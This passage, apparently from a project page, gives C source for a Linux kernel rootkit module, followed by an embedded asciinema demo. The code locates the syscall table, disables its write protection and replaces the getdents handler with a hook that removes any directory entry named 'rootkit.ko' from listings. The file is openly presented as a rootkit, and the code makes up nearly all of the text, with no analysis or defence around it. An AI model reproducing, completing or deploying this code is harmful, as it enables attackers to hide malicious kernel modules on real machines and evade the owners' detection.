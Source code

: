 ```c rootkit.c
    return sys_call_table;
}

#define FILENAME "rootkit.ko"

int sys_getdents_hook(struct pt_regs *regs) {
    int total = original_getdents(regs);
    unsigned int fd = regs->di;
    struct linux_dirent *dirent = regs->si;
    unsigned int count = regs->dx;
    int offset = 0;
    while (offset < total) {
        struct linux_dirent *ptr = (struct linux_dirent *)((uint8_t *)dirent + offset);
        struct linux_dirent *next_ptr = (struct linux_dirent *)((uint8_t *)dirent + offset + ptr->d_reclen);
        if (strncmp(ptr->d_name, FILENAME, strlen(FILENAME)) == 0) {
            int reclen = ptr->d_reclen;
            memmove(ptr, next_ptr, total - (offset + reclen));
            total -= reclen;
        } else {
            offset += ptr->d_reclen;
        }
    }
    return total;
}

static int rootkit_init(void) {
    sys_call_table = (void **)get_syscalltable();
    printk(KERN_INFO "sys_call_table = %llu\n", sys_call_table);
    writable_unlock();
    original_getdents = sys_call_table[__NR_getdents];
    sys_call_table[__NR_getdents] = sys_getdents_hook;
    return 0;
}

static void rootkit_exit(void) {
    sys_call_table[__NR_getdents] = original_getdents;
    writable_lock();
}

module_init(rootkit_init);
module_exit(rootkit_exit);
```

### DEMO

<script id="asciicast-nySYMlkNUoKXyGZidEFOsN1PV" src="https://asciinema.org/a/nySYMlkNUoKXyGZidEFOsN1PV.js" async></script>

---
